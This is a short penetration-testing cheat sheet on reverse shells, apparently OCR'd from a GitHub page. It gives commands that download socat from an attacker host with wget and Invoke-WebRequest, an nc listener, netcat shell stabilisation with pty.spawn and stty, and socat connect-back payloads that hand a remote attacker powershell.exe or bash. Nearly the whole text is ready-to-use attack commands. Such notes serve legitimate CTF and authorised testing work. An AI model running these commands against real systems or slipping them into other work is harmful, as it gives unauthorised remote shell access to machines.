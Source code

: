 # Shells

```
python -m http.server 80
```
```
wget <LOCAL-IP>/socat -O /tmp/socat
```
```
Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```

## Change terminal size

```
stty -a #get current shell parameters
stty rows <number>
stty cols <number>
```

## Stabilize netcat shell:

### Linux Attacker

```
python(2/3) -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL-Z -> stty raw -echo; fg
```

### Attacker:

```
rlwrap nc -lvnp <port>
stty raw -echo; fg 
```

## Socat

Basic socat listener (attacker)

```
socat TCP-L:<port>
```

Connect back on Windows (target)
```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

Connect back Linux (target)

```
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li" 
```
